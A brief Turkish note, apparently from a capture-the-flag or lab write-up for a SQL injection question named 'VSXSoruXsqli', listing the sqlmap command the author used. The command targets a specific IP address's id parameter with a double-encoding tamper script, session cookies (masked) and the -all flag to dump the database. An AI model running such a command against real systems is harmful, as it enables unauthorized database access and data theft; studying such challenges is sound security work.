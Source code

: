 
## Servername **VSXSoruXsqli**


Bu soru için kullandığım sqlmap parametreleri aşağıda yer almaktadır


`sqlmap.py -u 'http://85.111.95.20:80/index.php?id=1' -p 'id' --beep --tamper=chardoubleencode --cookie='PHPSESSID=XXX;NSC_WT-Tpsv-trmj=XXX' -all`
